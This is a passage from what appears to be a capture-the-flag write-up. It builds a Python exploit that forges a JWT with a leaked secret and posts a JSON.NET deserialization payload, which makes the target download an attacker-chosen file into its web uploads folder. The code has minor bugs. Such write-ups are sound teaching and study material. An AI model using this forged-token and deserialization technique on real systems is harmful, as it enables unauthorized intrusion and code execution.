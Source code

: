     import jwt
    import requests
    import sys
    from datetime import datetime, timedelta
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
    
    
    # Get args
    try:
        ip = sys.argv[1]
        url = sys.arv[2]
        saveas = sys.argv[3]
    except IndexError:
        print(f'Usage: {sys.argv[0]} [IP] [url to upload] [filename on target]')
        sys.exit()
        
    # Forge JWT
    jwt = jwt.encode({'name': "1", "exp": datetime.utcnow() + timedelta(days=7)}, 'secretlhfIH&FY*#oysuflkhskjfhefesf', algorithm="HS256")
    headers = {'Authorization': f'Bearer {jwt}', 'Content-Type': 'application/json'}
    

### Submit Serialized Payload

Next I need to add the request to put the serialized object into the DB. [This
paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-
The-13th-JSON-Attacks-wp.pdf) from Blackhat has a _ton_ of information on JSON
deserialization. Looking at the payloads, the format typically goes:

    
    
    {"$type": "[class.object]", "[class]", "version=[version]", "[parameter]": "[value]", "[parameter]": "[value]", ...}
    

I think version is optional, as it’s a keyword argument. With some playing
around, I got this:

    
    
    # Send DownloadHelper object as JSON
    serial_payload = {"json": "{'$type':'Cereal.DownloadHelper, Cereal','URL':'" + url + "','FilePath': 'C:\\\\inetpub\\\\source\\\\uploads\\\\" + saveas + "'}"}
    resp = requests.post(f'https://{target}/requests', json=serial_payload, headers=headers, verify=False)
    if resp.status_code != 200:
        print('[-] Something went wrong')
        sys.exit()
    serial_id = resp.json()['id']
    print(resp.text)
    
